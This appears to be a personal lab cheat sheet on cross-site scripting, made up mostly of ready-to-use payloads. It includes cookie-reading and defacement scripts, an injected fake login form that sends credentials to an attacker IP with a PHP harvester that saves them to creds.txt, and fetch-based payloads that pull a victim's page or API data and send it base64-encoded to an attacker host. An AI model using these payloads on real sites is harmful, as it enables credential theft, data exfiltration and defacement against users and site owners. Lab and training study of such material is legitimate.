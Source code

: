 
| Stored (Persistent)                                                | Reflective (None-Persistent)                           | DOM-Based                                                |
| ------------------------------------------------------------------ | ------------------------------------------------------ | -------------------------------------------------------- |
| User input is stored on the server, and is executed when retrieved | User input is process server side without being stored | User input is processed client side without being stored |
### Payloads - Classics

```bash
<script>alert("XSS")</script>
<script>alert(window.origin)</script>
<script>alert(document.cookie)</script>
<img src="" onerror=alert(window.origin)>
<img src="https://x.x.x.x">
```

### Defacing

```bash
<script>document.title = 'Title Text'</script>
<script>document.body.style.background = "#141d2b"</script>
<script>document.body.background = "https://x.x.x.x/images/image.svg"</script>
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Header Text</h1><p style="color: white">by <img src="https://x.x.x.x/images/image.svgg" height="25px" alt="ALT Text"> </p></center>'</script>
```

### Phishing

Fake login form:

```bash
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.87><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Attacker side - save as index.php:

```bash
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    #header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Start PHP server:

```bash
sudo php -S 0.0.0.0:80
```

Creds should be save in `creds.txt`
### DOM-Based

The `#` signed is a client side parameter processed by the web browser

![[Pasted image 20241119153420.png]]

Does not appear in the View Page Source:

![[Pasted image 20241119153935.png]]

Does appear in the development tools:

![[Pasted image 20241119154106.png]]

### Other Examples

```bash
<script>
fetch("http://alert.htb/index.php?page=messages") //User goes to this site
.then(response => response.text()) // Convert the response to text
.then(data => {
fetch("http://10.10.14.180/?data=" + encodeURIComponent(data));
}) //send the page to the attacker
.catch(error => console.error("Error fetching the messages:", error));
</script> 
```



```bash
<img src='[http://10.10.14.180/missing',](http://10.10.14.180/missing',) onerror='fetch(`[http://10.129.133.59/api/info](http://10.129.133.59/api/info)`).then(res => res.text()).then(text => fetch(`[http://10.10.14.180/OK/$](http://10.10.14.180/OK/$){btoa(text)}`)).catch(err => fetch(`[http://10.10.14.180/OK/$](http://10.10.14.180/OK/$){btoa(err)}`))'></img>
```

On error, go to http://10.129.133.59/api/info
Take the output and base64 it and send to http://10.10.14.180/OK/$